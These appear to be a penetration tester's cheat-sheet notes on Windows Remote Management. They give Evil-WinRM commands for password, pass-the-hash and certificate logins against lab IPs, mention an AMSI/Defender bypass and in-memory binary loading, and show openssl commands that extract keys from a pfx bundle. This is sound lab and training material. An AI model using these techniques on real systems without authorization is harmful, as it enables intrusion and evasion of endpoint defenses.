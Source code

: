 ## Windows Remote Management

WinRM is a Microsoft implementation of the DMTF Sandard WS-Management Standard. A SOAP based protocol used to administer devices.


Winrm uses kerberos authentication by default but it can be expanded with SSL/TLS Certificates.



Evil-Winrm Basic:

```bash
# User/pass
evil-winrm -u MercerH -p CoolPasswd -i 10.200.70.117
# pth
evil-winrm -u MercerH -H 5edc955e8167199d1b7d0e656da0ceea -i 10.200.70.117 
# Certificate Auth (AD CA)
evil-winrm -S -i 10.129.227.105 -u Legacyy -p thuglegacy -c tlapse.cer -k tlapse.key 


# Specify PS Scripts folder
proxychains4 evil-winrm -i 10.200.101.150 -u kek -p 'kek123!' -s ~/TransferKit 

# Then load them with


```
**Check out always the documentation**


Evil-WinRM has a lot of interesting features. One of with is an AMSI (common detection) bypass allowing to run some powershell scripts on a target with windows defender.  `Bypass-4MSI`

It's also possible to load binaries directly in memory, it's handy in some cases but it doesn't really a lot of obfuscation to the malware.  `Invoke-Binary`



### WinRM Certificate login
Uses the Active Directory Certificate Authority

The certificate file(s) have different extentions and purposes:

| Extention |   Meaning     |
|---------- |:-------------|
| file.pfx  |  PKCS#12 Bundle, contains both private and public keys|   |
| file.key  |Private Key File |
| file.cer  | Public Key File |

Evil-WinRM uses the ".key" and ".cer" extentions

**Extract keys from pfx file**
[Great Article](http://www.freekb.net/Article?id=2460)

```bash
#Show infos
openssl pkcs12 -in example.pfx -passin pass:your_password -info
openssl pkcs12 -in example.pfx -passin pass:your_password -passout pass:your_password -info

#Extract Certs
openssl pkcs12 -in legacyy_dev_auth.pfx  -passin pass:thuglegacy -passout pass:thuglegacy -info -clcerts 2>/dev/null

#PrivKey --> -----BEGIN/END ENCRYPTED PRIVATE KEY-----
#PubKey  --> -----BEGIN/END CERTIFICATE-----


```